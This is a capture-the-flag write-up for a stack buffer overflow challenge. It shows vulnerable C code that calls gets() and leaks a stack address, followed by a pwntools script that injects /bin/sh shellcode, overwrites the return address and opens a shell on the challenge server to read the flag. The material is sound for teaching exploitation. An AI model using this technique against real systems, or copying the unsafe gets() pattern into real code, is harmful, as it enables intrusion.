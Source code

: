 ```text
#include <stdio.h>
#include <stdlib.h>


int vuln() {
	char data[128];
	printf("What would you like to store in memory today (%x)?\n", &data);
	gets(data);
}

int main(){
	setvbuf(stdout, NULL, _IONBF, 0);
	vuln();
}
```

NX is off which means that we can execute instructions on the stack and the program very kindly tells us the location we're writing to.  Our goal here is to write shellcode onto the stack and then overwrite the return pointer to the address we received earlier.  

### shellcode
Wikipedia says 
```text
In hacking, a shellcode is a small piece of code used as the payload in the exploitation of a software vulnerability. It is called "shellcode" because it typically starts a command shell from which the attacker can control the compromised machine, but any piece of code that performs a similar task can be called shellcode. Because the function of a payload is not limited to merely spawning a shell, some have suggested that the name shellcode is insufficient.[1] However, attempts at replacing the term have not gained wide acceptance. Shellcode is commonly written in machine code. 
```

What we're going to be using is linux amd64 instructions which execute `execve("/bin/sh")`.  I use pwntools to generate this for me but [shell-storm](http://shell-storm.org/shellcode/) is also a good resource.  


```python
#!/usr/bin/env python3

from pwn import *
import re

context.log_level = logging.ERROR

exe = ELF("./chall")

context.binary = exe
context.terminal = ["termite","-e"]

def conn():
    if args.LOCAL:
        return process([exe.path])
    else:
        return remote("ctf.cybr.club", 2001)


def main():
    r = conn()
    stack_addr = int(re.search("\((.*)\)", r.readline().decode('ascii')).group(1),16)
    payload = asm(shellcraft.i386.linux.sh())
    payload += b"A" * (140 - len(payload)) # fill data buffer
    payload += p32(stack_addr)
    r.sendline(payload)
    r.sendline("cat flag.txt;exit;")
    print(re.search("(FLAG{.*})",r.recvall().decode()).group(1))
```